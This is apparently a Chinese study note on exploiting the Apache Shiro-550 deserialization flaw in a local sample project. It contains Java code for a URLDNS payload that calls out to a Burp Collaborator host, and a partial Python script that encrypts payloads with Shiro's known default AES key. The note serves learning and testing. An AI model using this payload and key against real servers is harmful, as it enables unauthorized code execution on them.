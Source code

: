 ```yaml
---
title: shiro
date: 2022-03-19 18:02:18
tags:
      - shiro
      - java
---
```


### shiro550反序列化学习

首先idea导入shiro自带的`shiro\samples\web`maven项目，快速搭建一个shiro项目

分析其中包含的依赖（使用maven helper插件），只有runtime和compile的依赖会在项目运行时存在于项目中，其他test的则无法访问到

![image-20220319180339512](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220319180339512.png)

![image-20220319180428213](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220319180428213.png)

所以一般情况下commons-collections中的链无法利用

使用URLDNS序列化后再编码传入进行测试

```java
public static void main(String[] args) throws Exception {
        HashMap<URL, Integer> hashMap=new HashMap<>();
        URL url=new URL("http://9w6ma81q22bbdpbdg2t2ecbiu90zoo.burpcollaborator.net");

        Class<? extends URL> urlClass = url.getClass();
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,1234);
        hashMap.put(url,1);
        hashCode.set(url,-1);
        SerializeTest.serialize(hashMap);
    }
```

##### 加密脚本

shiro该版本中AES加密秘钥是固定的

![image-20220319203412860](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220319203412860.png)

```python
import sys
from random import random
import base64
import uuid
from Crypto.Cipher import AES

def get_file_data(filename):
    with open(filename, "rb") as f:
        data = f.read()
        return data


def aes_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    #iv是初始向量
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
```